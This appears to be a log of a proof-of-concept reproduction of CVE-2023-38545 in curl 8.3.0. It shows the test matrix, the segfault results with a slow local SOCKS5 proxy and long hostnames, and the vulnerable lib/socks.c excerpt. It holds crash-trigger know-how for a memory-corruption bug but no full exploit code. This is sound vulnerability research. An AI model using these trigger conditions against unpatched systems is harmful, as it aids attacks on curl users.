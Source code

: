 

poc.exec_results
[03:54:41]
Iteration 2 results (CVE-2023-38545):

Proxy variant:
- /tmp/slow_socks5_v2.py (does not read CONNECT body; slow greeting replies) running at 127.0.0.1:1080
- Example PID: 257, cmd: python3 /tmp/slow_socks5_v2.py 0.3

Test matrix (host lengths 256/512/1024/2048/4096), options: --no-progress-meter, --limit-rate 1k, --socks5-hostname+--path-as-is. All used socks5h:// or equivalent.

Key observations:
- For 256/512/1024: no crash; connection times out after 20s across variants.
- For 2048:
  - With --limit-rate 1k: curl segfaulted ("Segmentation fault (core dumped)") immediately after the SOCKS5 connect log line.
  - With other flags: timed out.
- For 4096:
  - With --limit-rate 1k: curl segfaulted similarly ("Segmentation fault (core dumped)").
  - Other flag variants: timeouts.

Representative log excerpt (2048, --limit-rate 1k):
* Connected to 127.0.0.1 (127.0.0.1) port 1080
* SOCKS5: server resolving disabled for hostnames of length > 255 [actual len=2048]
Segmentation fault (core dumped)

Interpretation:
- The modified slow SOCKS5 that applies backpressure plus large hostname and throttled sender triggers a segfault in curl 8.3.0, consistent with CVE-2023-38545 heap handling in lib/socks.c.
- Crash is timing-sensitive; not all option combos crash, but using --limit-rate 1k with hostlen >= 2048 consistently triggers in this environment.

Next steps proposed:
- Build ASAN-instrumented curl-8.3.0 from source to capture detailed backtrace and confirm overflow location. Source path currently unknown; needs to be provided (e.g., /codebase/curl-8.3.0).
- Optionally compare with curl 8.4.0 to see CURLPX_LONG_HOSTNAME error instead of crash (no 8.4.0 present).



cve38545_code_snippet
[03:44:42]
File: curl-8.3.0/lib/socks.c (trimmed, key parts)

  unsigned char *socksreq = (unsigned char *)data->state.buffer;
  ...
  bool socks5_resolve_local =
    (conn->socks_proxy.proxytype == CURLPROXY_SOCKS5) ? TRUE : FALSE;
  const size_t hostname_len = strlen(sx->hostname);
  ...
  /* RFC1928 chapter 5 specifies max 255 chars for domain name in packet */
  if(!socks5_resolve_local && hostname_len > 255) {
    infof(data, "SOCKS5: server resolving disabled for hostnames of "
          "length > 255 [actual len=%zu]", hostname_len);
    socks5_resolve_local = TRUE;   /* BUG: only local var, not persisted */
  }
  ...
CONNECT_RESOLVE_REMOTE:
  case CONNECT_RESOLVE_REMOTE:
    /* Authentication is complete, now specify destination to the proxy */
    len = 0;
    socksreq[len++] = 5; /* version (SOCKS5) */
    socksreq[len++] = 1; /* connect */
    socksreq[len++] = 0; /* must be zero */
